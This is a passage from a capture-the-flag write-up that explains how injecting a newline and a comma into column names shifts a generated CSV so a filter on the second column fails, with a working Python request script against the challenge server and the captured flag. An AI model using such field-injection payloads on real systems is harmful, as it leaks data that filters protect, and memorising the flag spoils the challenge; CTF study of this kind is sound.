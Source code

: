 ```python
    bytes_df = BytesIO()
    bytes_df.write(string_df.getvalue().encode())
    bytes_df.seek(0)

    return send_file(bytes_df, download_name="data.csv")

```

The important code here is the filtering of 2nd column, if we manage to move the columns before insert we can leak the flag

```python
    # Filter out secrets
    first = list(df.columns.values)[1]
    df = df.query(f'{first} != "FLAG"')
```

If we send newline `\n` and `,` the resulting CSV table will be moved and the word `FLAG` will move to the first column
```python
import requests

url = "https://tbtl-rnd-for-data-science.chals.io/generate"

data = {
    "numColumns": 2,
    "columnName0": "test\n",
    "columnName1": "rank,", 
    "delimiter": ","
}
r = requests.post(url, data=data)
print(r.text)
```

![Alt text](images/image-6.png)

flag: **TBTL{d4T4_5c13nc3_15_n07_f0r_r0ck135}**
